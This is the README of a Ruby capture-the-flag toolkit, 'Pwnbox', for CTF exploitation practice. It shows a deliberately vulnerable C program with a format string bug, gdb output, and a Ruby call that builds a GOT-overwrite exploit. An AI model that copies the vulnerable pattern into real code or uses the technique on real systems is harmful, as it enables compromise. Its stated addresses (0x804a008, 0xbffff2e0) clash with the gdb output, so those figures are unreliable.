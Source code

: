 # Pwnbox

Capture-The-Flag(CTF) toolkit

## Installation

Add this line to your application's Gemfile:

    gem 'pwnbox'

And then execute:

    $ bundle

Or install it yourself as:

    $ gem install pwnbox

## Usage

### Find a libc.so

```ruby
    libc = Pwnbox::Pwnable.find_libc(['system', 0x40100])
    puts "Path : #{libc.path}"
    puts "Read address : 0x%08X" % libc.find_address_by_name('read')
```

### Format string bug

An example is following.

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char** argv)
{
    char buf[0x100];
    strncpy(buf, argv[1], 40);
    printf(buf);
    exit(-1);
}
```

Get exploit parameters using gdb.

```shell
=> 0x080484c7 <+74>:    call   0x8048330 <printf@plt>
(gdb) x/i 0x8048350
   0x8048350 <exit@plt>:        jmp    *0x804a014
(gdb) x/x $esp
0xbffff2f0:     0xbffff30c
```

exit GOT is 0x804a008. buffer address is 0xbffff30c and esp is 0xbffff2e0.

```ruby
Pwnbox::Exploit.fsb(0x804a014, 0xbffff30c - 0xbffff2f0, [0xdeadbeef].pack('<I'))
```

